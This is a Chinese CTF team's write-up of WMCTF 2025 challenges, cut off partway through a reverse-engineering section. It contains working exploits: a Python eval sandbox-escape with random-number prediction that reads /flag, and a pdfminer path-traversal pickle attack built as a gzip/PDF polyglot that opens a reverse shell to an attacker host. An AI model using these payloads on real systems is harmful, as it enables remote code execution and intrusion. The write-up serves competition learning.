










感谢 W&M 的师傅们精心准备的比赛！本次 WMCTF 我们 SU 取得了 第二名🥈 的成绩，感谢队里师傅们的辛苦付出！同时我们也在持续招人，欢迎发送个人简介至：suers_xctf@126.com 或者直接联系baozongwi QQ:2405758945。

以下是我们 SU 本次 2025 WMCTF的 WriteUp。

<!--more-->


# Web

## guess

应用代码如下

```Python
from flask import Flask, request, jsonify, session, render_template, redirect
import random

rd = random.Random()

def generate_random_string():
    return str(rd.getrandbits(32))

app = Flask(__name__)
app.secret_key = generate_random_string()

users = []

a = generate_random_string()

@app.route('/register', methods=['POST', 'GET'])
def register():
    if request.method == 'GET':
        return render_template('register.html')
    
    data = request.get_json()
    username = data.get('username')
    password = data.get('password')
    
    if not username or not password:
        return jsonify({'error': 'Username and password are required'}), 400
    
    if any(user['username'] == username for user in users):
        return jsonify({'error': 'Username already exists'}), 400
    
    user_id = generate_random_string()
    
    users.append({
        'user_id': user_id,
        'username': username,
        'password': password
    })
    
    return jsonify({
        'message': 'User registered successfully',
        'user_id': user_id
    }), 201


@app.route('/login', methods=['POST', 'GET'])
def login():

    if request.method == 'GET':
        return render_template('login.html')

    data = request.get_json()
    username = data.get('username')
    password = data.get('password')
    
    if not username or not password:
        return jsonify({'error': 'Username and password are required'}), 400
    
    user = next((user for user in users if user['username'] == username and user['password'] == password), None)
    
    if not user:
        return jsonify({'error': 'Invalid credentials'}), 401
    
    session['user_id'] = user['user_id']
    session['username'] = user['username']
    
    return jsonify({
        'message': 'Login successful',
        'user_id': user['user_id']
    }), 200

@app.post('/api')
def protected_api():

    data = request.get_json()

    key1 = data.get('key')
    
    if not key1:
        return jsonify({'error': 'key are required'}), 400

    key2 = generate_random_string()
    if not str(key1) == str(key2):
        return jsonify({
            'message': 'Not Allowed:' + str(key2) ,
        }), 403
    

    payload = data.get('payload')

    if payload:
        eval(payload, {'__builtin__':{}})
    
    return jsonify({
        'message': 'Access granted',
    })


@app.route('/')
def index():
    if 'user_id' not in session:
        return redirect('/login')
    
    return render_template('index.html')


if __name__ == '__main__':
    app.run(host='0.0.0.0', port=5001, debug=True)
```

过了key2就可以直接RCE了，不出网，先创建静态文件夹

```JSON
{
  "key": "3345821131",
  "payload": "(lambda o: o.mkdir('static'))(next(c.__init__.__globals__['os'] for c in ().__class__.__base__.__subclasses__() if hasattr(c.__init__,'__globals__') and 'os' in c.__init__.__globals__))"
}
```

再写入文件

```JSON
{
  "key": "3345821131",
  "payload": "(lambda o: open('static/out.txt','w').write(o.popen('whoami').read()))(next(c.__init__.__globals__['os'] for c in ().__class__.__base__.__subclasses__() if hasattr(c.__init__,'__globals__') and 'os' in c.__init__.__globals__))"
}
```

由于需要预测随机数，所以直接一次性payload会比较好

```HTTP
POST /api HTTP/1.1
Host: 127.0.0.1:5001
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/140.0.0.0 Safari/537.36
Accept-Language: zh-CN,zh;q=0.9
sec-ch-ua-mobile: ?0
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Accept-Encoding: gzip, deflate, br, zstd
sec-ch-ua: "Chromium";v="140", "Not=A?Brand";v="24", "Google Chrome";v="140"
Content-Type: application/json

{
  "key": "3345821131",
  "payload": "(lambda o: [o.mkdir('static'), open('static/out.txt','w').write(o.popen('tac /flag').read())])(next(c.__init__.__globals__['os'] for c in ().__class__.__base__.__subclasses__() if hasattr(c.__init__,'__globals__') and 'os' in c.__init__.__globals__))"
}
```

让写个脚本

```Python
import requests
from randcrack import RandCrack

base_url = "http://49.232.42.74:30222"

def main():
    s = requests.Session()
    username = "testuser1"
    password = "testuser1"

    register_data = {"username": username, "password": password}
    r = s.post(f"{base_url}/register", json=register_data)
    if r.status_code != 201:
        print(f"注册失败: {r.text}")
        return
    user_id = r.json()['user_id']
    print(f"注册成功，user_id: {user_id}")

    login_data = {"username": username, "password": password}
    r = s.post(f"{base_url}/login", json=login_data)
    if r.status_code != 200:
        print(f"登录失败: {r.text}")
        return
    print("登录成功")

    random_numbers = [int(user_id)]
    for i in range(623):
        data = {"key": "0"}
        r = s.post(f"{base_url}/api", json=data)
        if r.status_code != 403:
            print(f"收集随机数失败: {r.status_code} {r.text}")
            return
        key2 = r.json()['message'].split(':')[1]
        random_numbers.append(int(key2))
        print(f"收集到第{i+1}个随机数: {key2}")

    rc = RandCrack()
    for num in random_numbers:
        rc.submit(num)
    next_rand = rc.predict_getrandbits(32)
    print(f"预测的下一个随机数: {next_rand}")

    payload = "next(c.__init__.__globals__['os'] for c in ().__class__.__base__.__subclasses__() if hasattr(c.__init__,'__globals__') and 'os' in c.__init__.__globals__).popen('mkdir -p static && tac /flag > static/out.txt').read()"
    data = {"key": str(next_rand), "payload": payload}
    r = s.post(f"{base_url}/api", json=data)
    if r.status_code == 200:
        print("Payload执行成功")
    else:
        print(f"Payload执行失败: {r.status_code} {r.text}")
        return

    r = s.get(f"{base_url}/static/out.txt")
    if r.status_code == 200:
        print(f"Flag: {r.text}")
    else:
        print(f"读取flag失败: {r.status_code}")

if __name__ == '__main__':
    main()
```

## pdf2text

先看看代码

```Python
from flask import Flask, request, send_file, render_template
from pdfminer.pdfparser import PDFParser
from pdfminer.pdfdocument import PDFDocument
import os, io
from pdfutils import pdf_to_text

app = Flask(__name__)
app.config['UPLOAD_FOLDER'] = 'uploads'
app.config['MAX_CONTENT_LENGTH'] = 2 * 1024 * 1024  # 2MB limit

os.makedirs(app.config['UPLOAD_FOLDER'], exist_ok=True)


@app.route('/')
def index():
    return render_template('index.html')

@app.route('/upload', methods=['POST'])
def upload_file():
    if 'file' not in request.files:
        return 'No file part', 400
    
    file = request.files['file']
    filename = file.filename
    if filename == '':
        return 'No selected file', 400
    
    if '..' in filename or '/' in filename:
        return 'directory traversal is not allowed', 403 

    pdf_path = os.path.join(app.config['UPLOAD_FOLDER'], filename)
    pdf_content = file.stream.read()

    try:
        # just if is a pdf
        parser = PDFParser(io.BytesIO(pdf_content))
        doc = PDFDocument(parser)
    except Exception as e:
        return str(e), 500
    
    with open(pdf_path, 'wb') as f:
        f.write(pdf_content)

    md_filename = os.path.splitext(filename)[0] + '.txt'
    txt_path = os.path.join(app.config['UPLOAD_FOLDER'], md_filename)

    try:
        pdf_to_text(pdf_path, txt_path)
    except Exception as e:
        return str(e), 500 
    
    return send_file(txt_path, as_attachment=True)

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=5000)
```

从一个文件里面导入了模块，看看这个文件

```Python
from pdfminer.high_level import extract_pages
from pdfminer.layout import LTTextContainer

def pdf_to_text(pdf_path, txt_path):
    with open(txt_path, 'w', encoding='utf-8') as txt:
        for page_layout in extract_pages(pdf_path):
            for element in page_layout:
                if isinstance(element, LTTextContainer):
                    txt.write(element.get_text())
                    txt.write('\n')
```

队友在这里面找到了load

```Python
    @classmethod
    def _load_data(cls, name: str) -> Any:
        name = name.replace("\0", "")
        filename = "%s.pickle.gz" % name
        log.debug("loading: %r", name)
        cmap_paths = (
            os.environ.get("CMAP_PATH", "/usr/share/pdfminer/"),
            os.path.join(os.path.dirname(__file__), "cmap"),
        )
        for directory in cmap_paths:
            path = os.path.join(directory, filename)
            if os.path.exists(path):
                gzfile = gzip.open(path)
                try:
                    return type(str(name), (), pickle.loads(gzfile.read()))
                finally:
                    gzfile.close()
        raise CMapDB.CMapNotFound(name)
```

完全可控，所以生成恶意的tar.gz和PDF文件上传即可，但是都是需要伪造成pdf文件才能够上传的，第一步生成一个有恶意opcode的n4c1.pickle.gz，然后最后的PDF还需要去解析/app/uploads/n4c1，就可以成功反弹shell了

生成pdf去加载opcode

构造思路, 全局搜索 _load_data方法



有两处触发点, 这里选用get_cmap, 继续往上找, 可以找到以下调用路径

```Plain
extract_pages
        PDFPageInterpreter#process_page
                PDFPageInterpreter#render_contents
                        PDFPageInterpreter#process_page
                                PDFPageInterpreter#render_contents
                                        PDFPageInterpreter#init_resources
                                                PDFResourceManager#get_font
                                                        PDFCIDFont#__init__
                                                                PDFCIDFont#get_cmap_from_spec
                                                                        CMapDB.get_cmap(cmap_name)
                                                                            _load_data
        
```

extract_pages就是题目调用的地方

通过调试发现最后_load_data的参数是由/Encoding控制的, 此外pdf中使用 # 来转义一个16进制数, 这样就可以使用 ..#2F构造出 ../ , 避免与pdf中符号 / 表示名字对象冲突 

genPDF.py

```Python
from __future__ import annotations
import os
from io import BytesIO
import logging

logging.basicConfig(level=logging.DEBUG)
# This script hardcodes and generates a small PDF containing a variety of
# page-content operators (graphics, text, state) so you can step through
# pdfminer.six extract_pages() and observe how each operator is handled.
#
# Output: samples/debug_ops.pdf
#
# Key points to help debugging pdfminer internals:
# - The font is a Type0 + CIDFont with /Encoding /GB-EUC-H to trigger
#   CMapDB.get_cmap('GB-EUC-H') and thus CMapDB._load_data when not cached.
# - The content stream includes operators: q/Q, cm, w, RG, rg, m, l, h, S,
#   re, f, BT/ET, Tf, Td, Tm (implicit via Td), Tj, TJ.
# - Chinese text bytes <D6D0B9FA> represent "中国" in GB2312, so with
#   /Encoding /GB-EUC-H pdfminer will consult the CMap.


def build_pdf_bytes() -> bytes:
    bio = BytesIO()

    def w(s: bytes) -> int:
        pos = bio.tell()
        bio.write(s)
        return pos

    # Collect objects then build xref.
    objects: list[tuple[int, bytes]] = []

    # 1. Catalog
    objects.append(
        (
            1,
            b"<< /Type /Catalog /Pages 2 0 R >>",
        )
    )

    # 2. Pages
    objects.append(
        (
            2,
            b"<< /Type /Pages /Kids [3 0 R] /Count 1 >>",
        )
    )

    # 4. Type0 Font with GB-EUC-H encoding to trigger CMap loading
    font_type0 = (
        4,
        (
            b"<< /Type /Font /Subtype /Type0 "
            b"/BaseFont /DebugCID "
            # b"/Encoding /..#2F..#2F..#2F..#2F..#2F..#2F..#2F..#2Ftmp#2Fn4c1"
            b"/Encoding /..#2F..#2F..#2F..#2F..#2F..#2F..#2F..#2F..#2F..#2F..#2Fapp#2Fuploads#2Fn4c1"
            b"/DescendantFonts [6 0 R] >>"
        ),
    )
    objects.append(font_type0)

    # 6. CIDFont descendant with GB1 registry
    cidfont = (
        6,
        (
            b"<< /Type /Font /Subtype /CIDFontType0 "
            b"/BaseFont /DebugCID "
            b"/CIDSystemInfo << /Registry (n4c1222) /Ordering (n4c1_2) /Supplement 5 >> "
            b"/DW 1000 "
            b"/FontDescriptor << "
            b"/Type /FontDescriptor "
            b"/FontName /DebugCID "
            b"/FontBBox [0 -200 1000 900] "  # 必须是四个数字
            b"/Ascent 800 "
            b"/Descent -200 "
            b"/CapHeight 700 "
            b"/Flags 32 "
            b"/ItalicAngle 0 "
            b"/StemV 80 "
            b">>"
            b">>"
        ),
    )

    objects.append(cidfont)

    # 5. Page content stream — includes a variety of operators
    # Note: GB2312 for 中国 is D6 D0 B9 FA
    content_ops = b"\n".join(
        [
            b"q",  # save graphics state
            b"1 0 0 1 0 0 cm",  # identity CTM (explicit)
            b"0.75 w",  # line width
            b"0 0 1 RG",  # stroke color = blue
            b"1 0 0 rg",  # fill color = red
            b"100 600 m",  # move to
            b"200 650 l",  # line to
            b"300 600 l",  # line to
            b"h",  # close path
            b"S",  # stroke
            b"100 500 150 40 re",  # rectangle
            b"f",  # fill
            b"BT",  # begin text
            b"/F1 24 Tf",  # font + size
            b"100 700 Td",  # move text position
            b"<48656C6C6F20504446> Tj",  # "Hello PDF"
            b"0 -30 Td",  # next line down
            b"<D6D0B9FA> Tj",  # "中国" in GB2312; mapped via GB-EUC-H
            b"-50 -40 Td",  # move
            b"[(AB) -50 (<20>) 100 (CD)] TJ",  # kerning array example
            b"ET",  # end text
            b"Q",  # restore graphics state
            b"",
        ]
    )
    stream = b"stream\n" + content_ops + b"\nendstream"
    content_len = len(stream) - len(b"stream\n") - len(b"\nendstream")
    content_obj = (
        5,
        b"<< /Length %d >>\n" % content_len + stream,
    )
    objects.append(content_obj)

    # 3. Page (references content and font resource)
    page_dict = (
        3,
        (
            b"<< /Type /Page /Parent 2 0 R "
            b"/MediaBox [0 0 612 792] "
            b"/Resources << /Font << /F1 4 0 R >> >> "
            b"/Contents 5 0 R >>"
        ),
    )
    # Ensure ordering: add page after fonts and content so refs exist
    objects.append(page_dict)

    # Start writing file
    w(b"%PDF-1.4\n%\xE2\xE3\xCF\xD3\n")

    offsets: dict[int, int] = {}

    # Write each object, record offsets
    for obj_id, obj_body in objects:
        offsets[obj_id] = w(f"{obj_id} 0 obj\n".encode("ascii"))
        w(obj_body)
        w(b"\nendobj\n")

    # xref
    startxref = bio.tell()
    max_obj = max(offsets) if offsets else 0
    # xref table requires a free entry 0
    w(b"xref\n")
    w(f"0 {max_obj + 1}\n".encode("ascii"))
    # object 0 free
    w(b"0000000000 65535 f \n")
    for i in range(1, max_obj + 1):
        off = offsets.get(i, 0)
        w(f"{off:010d} 00000 n \n".encode("ascii"))

    # trailer
    w(
        (
            b"trailer\n"
            + b"<< "
            + f"/Size {max_obj + 1} ".encode("ascii")
            + b"/Root 1 0 R "
            + b">>\n"
        )
    )
    w(b"startxref\n")
    w(f"{startxref}\n".encode("ascii"))
    w(b"%%EOF\n")

    return bio.getvalue()


def main() -> str:
    out_dir = os.path.join(os.path.dirname(__file__), os.pardir, "samples")
    out_dir = os.path.abspath(out_dir)
    os.makedirs(out_dir, exist_ok=True)
    out_path = os.path.join(out_dir, "debug_ops.pdf")

    data = build_pdf_bytes()
    with open(out_path, "wb") as f:
        f.write(data)

    print("PDF written:", out_path)
    print("Size:", len(data), "bytes")
    return out_path


if __name__ == "__main__":
    main()
```

生成恶意opcode, 这一步直接拷打ai迭代出来

genOpcode.py:

```Python
import struct
import zlib

def build_minimal_pdf(base_offset: int = 0) -> bytes:
    # Build a minimal valid PDF with absolute xref offsets accounting for base_offset
    header = b"%PDF-1.4\n%\xE2\xE3\xCF\xD3\n"

    obj1 = b"""1 0 obj
<< /Type /Catalog /Pages 2 0 R >>
endobj
""".replace(b"\r", b"")

    obj2 = b"""2 0 obj
<< /Type /Pages /Kids [3 0 R] /Count 1 >>
endobj
""".replace(b"\r", b"")

    obj3 = b"""3 0 obj
<< /Type /Page /Parent 2 0 R /MediaBox [0 0 612 792] /Contents 4 0 R >>
endobj
""".replace(b"\r", b"")

    stream_body = b"Hello WMCTF!"  # small visible text
    obj4 = (b"4 0 obj\n<< /Length %d >>\nstream\n" % len(stream_body)) + stream_body + b"\nendstream\nendobj\n"

    # Build PDF body and record absolute offsets
    pdf = header
    abs_offsets = []
    for obj in (obj1, obj2, obj3, obj4):
        abs_offsets.append(base_offset + len(pdf))
        pdf += obj

    # xref and trailer with absolute positions
    xref_abs_offset = base_offset + len(pdf)
    xref_lines = ["xref", "0 5", "0000000000 65535 f "]
    for off in abs_offsets:
        xref_lines.append(f"{off:010d} 00000 n ")
    xref = ("\n".join(xref_lines) + "\n").encode("ascii")

    trailer = ("trailer\n<< /Size 5 /Root 1 0 R >>\nstartxref\n" + str(xref_abs_offset) + "\n%%EOF\n").encode("ascii")

    return pdf + xref + trailer

def build_gzip_with_extra(extra_bytes: bytes, payload_bytes: bytes) -> bytes:
    # GZIP header with FEXTRA holding extra_bytes (uncompressed), then deflate-compressed payload, then CRC/ISIZE
    ID1, ID2, CM = 0x1F, 0x8B, 0x08
    FLG = 0x04  # FEXTRA
    MTIME = 0
    XFL = 0
    OS = 255

    if len(extra_bytes) > 0xFFFF:
        raise ValueError("extra_bytes too long for GZIP FEXTRA (max 65535)")

    header = bytes([ID1, ID2, CM, FLG])
    header += struct.pack('<I', MTIME)
    header += bytes([XFL, OS])
    header += struct.pack('<H', len(extra_bytes))
    header += extra_bytes

    # raw deflate for payload
    comp = zlib.compressobj(level=9, wbits=-15)
    comp_data = comp.compress(payload_bytes) + comp.flush()

    crc = zlib.crc32(payload_bytes) & 0xFFFFFFFF
    isize = len(payload_bytes) & 0xFFFFFFFF

    trailer = struct.pack('<II', crc, isize)
    return header + comp_data + trailer

def main():
    # When storing PDF in GZIP FEXTRA, the PDF starts at byte offset 12 from file start
    base_offset = 12  # 10-byte gzip fixed header + 2-byte XLEN
    pdf_bytes = build_minimal_pdf(base_offset=base_offset)

    # payload to be recovered after decompression
    opcode_bytes = b'''(S'python -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("vps_ip",port));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")\''
ios
system
.'''

    gz_polyglot = build_gzip_with_extra(extra_bytes=pdf_bytes, payload_bytes=opcode_bytes)

    with open("opcode.gz", "wb") as f:
        f.write(gz_polyglot)

    # Diagnostics
    idx = gz_polyglot.find(b"%PDF-")
    print("%PDF- found at offset:", idx)
    print("Total size:", len(gz_polyglot))

    # Quick local checks
    # 1) Decompress to verify opcode
    try:
        import gzip
        data = gzip.decompress(gz_polyglot)
        print("Decompressed data:", data)
    except Exception as e:
        print("Decompress failed:", e)

    # 2) Basic header preview for PDF
    print("Header preview around %PDF-:", gz_polyglot[idx:idx+20] if idx != -1 else None)
    print("生成 polyglot: 有效GZIP(可解压得到opcode) + 头部携带有效PDF(可通过PDF解析)")

if __name__ == "__main__":
    main()
```

首先上传包含恶意opcode的gz文件, vps监听, 再上传恶意pdf, 拿到shell

# Reverse

## catfriend

出题人失误了，搜索字符串直接找到flag



WMCTF{5a3e8f2b-1c7d-4a6f-b89e-0d3c2f1a4b5c}

## appfriend

Java层逻辑指向native层的check flag函数

```Java
package com.example.yellow;
import android.os.Bundle;
import android.view.View;
import android.view.ViewGroup;
import android.widget.Button;
import android.widget.EditText;
import android.widget.TextView;
import androidx.constraintlayout.widget.ConstraintLayout;
